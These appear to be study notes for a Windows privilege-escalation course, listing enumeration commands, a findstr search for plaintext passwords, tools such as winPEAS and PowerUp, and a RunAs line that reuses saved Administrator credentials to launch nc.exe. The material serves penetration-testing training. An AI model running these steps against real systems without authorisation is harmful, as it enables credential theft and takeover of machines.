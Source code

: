 ### Windows Privesc TCM

## System Enumeration

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 

**Pull up patches**

wmic qfe

wmic qfe get Caption,Description,HotFixID,InstalledOn

**List all drives**

wmic logicaldisk

wmic logicaldisk get Caption,description,providername

## User E numeration

whoami 

**Find user privileges**

whoami /priv

**Groups you belong to**

whoami /groups

**Find users on this machine**

net user

**See who is part of a group**

net localgroup administrators

## Network Enumeration

ipconfig && ipconfig /all

**Drop arp table**

arp -a

**Read routing table**

route print

**See ports**

netstat -nao

## Password Hunting

**Search current directory**

findstr /si password *.txt *.ini *.config

## A/V and Firewall Enumeration

**Check windows defender**

sc query windefend

**Look for A/V**
sc queryex type= service

**Check firewall state**
netsh advfirewall dump

**Check firewall rules**
net firewall show config

## Automated Enumeration Tools
| Exectuables   | PowerShell    | Other | 
| ------------- | ------------- | ------------- |
| winPEAS.exe   | Sherlock.ps1  | windows-exploit-suggest.py |
| Seatbelt.exe  | PowerUp.ps1 | Exploit Suggester (Metasploit) |
| Watson.exe | jaws-enum.ps1 | |
|SharpUp.exe | | |

**Exploit Suggester**
run post/multi/recon/local_exploit_suggester

**Windows Linux Subsystem**
Can be used to escalate privileges

## Token Impersonation

What are tokens?
Tokens are temp keys taht allow you access to a system/network without having to provide creds each time.

Two types:
* Delegate - Create for logging into a machine or using Remote Desktop
* Impersonate - "non-interactive" such as attaching a network drive or domain logon script

## RunAs

`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Users\Public\nc.exe`

